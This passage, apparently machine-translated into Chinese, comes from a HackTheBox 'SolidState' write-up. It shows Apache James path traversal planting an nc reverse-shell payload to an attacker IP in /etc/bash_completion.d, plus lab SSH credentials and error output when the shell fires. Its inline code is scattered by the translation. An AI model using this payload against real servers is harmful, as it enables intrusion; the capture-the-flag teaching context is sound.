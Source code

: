 
这将创建一个包含我的反向 shell 的文件。因此，下次任何用户登录时，我都将以该用户的身份获得一个 shell。在第一个标头的开头添加 非常重要的 。然后，我在有效载荷之前关闭它。稍后，当 运行此文件时，会将所有这些行合并到一个损坏的命令中，该命令将失败并继续。如果没有 ，有些行会在反向 shell 运行之前崩溃并破坏脚本。`/etc/bash_completion.d``'``MAIL FROM``'``bash``'`

我必须使用有效载荷才能使其正常工作，我将在Beyond Root中对此进行一些探讨。我确实发现，当手动做事时，工作，而其他人则没有。使用 Python 脚本时，多个有效负载可以正常工作。这似乎与Python脚本添加的方式有关。`/bin/nc -e /bin/bash 10.10.14.47 443``\r`

#### 触发器 -> 外壳

现在我可以SSH作为头脑，并触发代码。漏洞利用中存在新的错误，然后终端只是挂起：`rbash`

    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
    -rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
    -rbash: L: command not found
    -rbash: attributestLjava/util/HashMap: No such file or directory
    -rbash: L
             errorMessagetLjava/lang/String: No such file or directory
    -rbash: L
             lastUpdatedtLjava/util/Date: No such file or directory
    -rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
    -rbash: $'L\004nameq~\002L': command not found
    -rbash: recipientstLjava/util/Collection: No such file or directory
    -rbash: L: command not found
    -rbash: $'remoteAddrq~\002L': command not found
    -rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
    -rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
    -rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
    -rbash: 0xdf@10.10.14.47>
    Message-ID: <4054205.0.1588213770563.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 148
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
    Date: Wed, 29 Apr 2020 22:29:30 -0400 (EDT)
    FROM: 0xdf@10.10.14.47
    : No such file or directory
    

您可以在错误中看到，由于添加了 .`0xdf@10.10.14.47``FROM: 0xdf@10.10.14.47``'`

